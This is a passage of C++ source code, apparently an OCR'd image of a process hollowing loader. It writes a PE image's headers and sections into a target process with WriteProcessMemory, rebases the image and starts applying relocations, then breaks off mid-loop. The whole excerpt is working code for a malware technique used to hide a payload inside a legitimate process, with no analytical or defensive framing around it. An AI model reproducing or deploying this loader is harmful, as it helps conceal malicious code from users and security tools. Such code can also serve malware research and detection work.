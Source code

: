 ```
	const DWORD64 DeltaImageBase = (DWORD64)lpAllocAddress - lpImageNTHeader64->OptionalHeader.ImageBase;

	lpImageNTHeader64->OptionalHeader.ImageBase = (DWORD64)lpAllocAddress;
	const BOOL bWriteHeaders = WriteProcessMemory(lpPI->hProcess, lpAllocAddress, lpImage, lpImageNTHeader64->OptionalHeader.SizeOfHeaders, nullptr);
	if (!bWriteHeaders)
	{
		printf("[-] An error has occurred when trying to write the headers of the new image. Error: %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] Headers write at : 0x%p\n", lpAllocAddress);

	const IMAGE_DATA_DIRECTORY ImageDataReloc = GetRelocAddress64(lpImage);
	PIMAGE_SECTION_HEADER lpImageRelocSection = nullptr;

	for (int i = 0; i < lpImageNTHeader64->FileHeader.NumberOfSections; i++)
	{
		const auto lpImageSectionHeader = (PIMAGE_SECTION_HEADER)((uintptr_t)lpImageNTHeader64 + 4 + sizeof(IMAGE_FILE_HEADER) + lpImageNTHeader64->FileHeader.SizeOfOptionalHeader + (i * sizeof(IMAGE_SECTION_HEADER)));
		if (ImageDataReloc.VirtualAddress >= lpImageSectionHeader->VirtualAddress && ImageDataReloc.VirtualAddress < (lpImageSectionHeader->VirtualAddress + lpImageSectionHeader->Misc.VirtualSize))
			lpImageRelocSection = lpImageSectionHeader;


		const BOOL bWriteSection = WriteProcessMemory(lpPI->hProcess, (LPVOID)((UINT64)lpAllocAddress + lpImageSectionHeader->VirtualAddress), (LPVOID)((UINT64)lpImage + lpImageSectionHeader->PointerToRawData), lpImageSectionHeader->SizeOfRawData, nullptr);
		if (!bWriteSection)
		{
			printf("[-] An error has occurred when trying to write the section : %s. Error %d \n", (LPSTR)lpImageSectionHeader->Name, GetLastError());
			return FALSE;
		}

		printf("[+] Section %s write at : 0x%p.\n", (LPSTR)lpImageSectionHeader->Name, (LPVOID)((UINT64)lpAllocAddress + lpImageSectionHeader->VirtualAddress));
	}

	if (lpImageRelocSection == nullptr)
	{
		printf("[-] An error has occurred when trying to get the relocation section of the source image. Error %d \n", GetLastError());
		return FALSE;
	}

	printf("[+] Relocation section : %s\n", (char*)lpImageRelocSection->Name);

	DWORD RelocOffset = 0;

	while (RelocOffset < ImageDataReloc.Size)
	{
		const auto lpImageBaseRelocation = (PIMAGE_BASE_RELOCATION)((DWORD64)lpImage + lpImageRelocSection->PointerToRawData + RelocOffset);
		RelocOffset += sizeof(IMAGE_BASE_RELOCATION);
		const DWORD NumberOfEntries = (lpImageBaseRelocation->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(IMAGE_RELOCATION_ENTRY);
		for (DWORD i = 0; i < NumberOfEntries; i++)
		{
```